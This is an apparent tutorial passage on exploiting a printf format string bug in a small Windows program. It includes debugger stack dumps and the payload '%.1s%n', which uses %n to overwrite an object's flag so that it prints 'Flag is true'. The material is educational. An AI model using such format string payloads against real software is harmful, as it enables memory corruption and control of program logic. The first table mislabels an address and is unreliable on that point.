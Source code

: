 At runtime, the printf stack looks like this:

```
0:000> r
eax=00e042f0 ebx=00c6d000 ecx=00e0431a edx=00000004 esi=00bfaea0 edi=00e042f0
eip=00be1082 esp=00b0f808 ebp=00b0f82c iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
f+0x1082:
00be1082 e8c9000000      call    f+0x1150 (00be1150)
0:000> dd esp L4
00b0f808  00e0431a 00b0f830 00e085c0 00e085c0
```

The first DWORD (00b0f808) is the first argument of the `printf` function. The most interesting one is the theird DWORD, because that is the address for our `SomeObject` instance. We recall that the first DWORD of the object's address is where the `flag` variable saves its value, that is what we want to control. To acheive that, basically this is what we have to deal with:

| Offset from ESP | Pointer  | Comment                                                      |
| --------------- | -------- | ------------------------------------------------------------ |
| 0               | 00b0f808 | This is a pointer to the format string.                      |
| 4               | 00b0f830 | This is some pointer that could be treated by printf as a second argument. |
| 8               | 00e085c0 | This is the address for the `SomeObject` instance, which could be treated by printf as the third argument. |

In order to overwrite the `flag` variable, we should craft our format string like this:

```
%.1s%n
```

And here's what happens in memory when we do that:

| Offset from ESP | Pointer  | Value                                                        |
| --------------- | -------- | ------------------------------------------------------------ |
| 0               | 00b0f808 | "%.1s%n"                                                     |
| 4               | 00b0f830 | The format specifier `%.1s` prints one byte from this address. |
| 8               | 00e085c0 | The format specifier `%n` counts only one byte is printed on the screen, and then saves that count in this address. |

After `printf` is executed, the value for `flag` ends up being changed by the `%n` format specifier to 1.

```
0:000> dd 00e085c0 
00e085c0  00000001 abababab abababab feeefeee
00e085d0  00000000 00000000 801fd33e 0000b105
00e085e0  00e09fe8 00e000c0 feeefeee feeefeee
00e085f0  feeefeee feeefeee feeefeee feeefeee
00e08600  feeefeee feeefeee feeefeee feeefeee
00e08610  feeefeee feeefeee feeefeee feeefeee
00e08620  feeefeee feeefeee feeefeee feeefeee
00e08630  feeefeee feeefeee feeefeee feeefeee
```

That means when the main function checks for the `flag` variable, it will no longer print "false" as we previously expected, instead it should be the opposite:

```
å
Flag is true
```







